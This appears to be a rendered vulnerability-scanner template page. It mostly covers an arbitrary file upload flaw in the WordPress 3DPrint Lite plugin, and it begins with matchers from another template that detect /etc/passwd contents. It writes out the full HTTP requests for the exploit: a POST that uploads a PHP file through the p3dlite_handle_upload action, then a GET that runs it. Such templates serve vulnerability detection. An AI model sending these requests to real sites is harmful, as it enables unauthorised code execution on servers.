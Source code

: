**Type - regex**
- part - body
- regex
    1. root:.*:0:0:

**Type - word**
- part - header
- words
    1. application/json

**Type - status**
- status
    1. 200

---
# WordPress 3DPrint Lite \<1.9.1.5 - Arbitrary File Upload
## Description
- WordPress 3DPrint Lite plugin before 1.9.1.5 contains an arbitrary file upload vulnerability. The p3dlite_handle_upload AJAX action of the plugin does not have any authorization and does not check the uploaded file. An attacker can upload arbitrary files to the server, which in turn can be used to make the application execute file content as code, As a result, an attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized operations.

- severity - high
- tags - wpscan,edb,wordpress,wp,wp-plugin,fileupload,intrusive,3dprint
## Requests
### Step - 1
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------54331109111293931601238262353

-----------------------------54331109111293931601238262353
Content-Disposition: form-data; name="action"

p3dlite_handle_upload
-----------------------------54331109111293931601238262353
Content-Disposition: form-data; name="file"; filename={{randstr}}.php
Content-Type: text/php

<?php echo '3DPrint-arbitrary-file-upload'; ?>
-----------------------------54331109111293931601238262353--

```
### Step - 2
```
GET /wp-content/uploads/p3d/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```
### Matchers

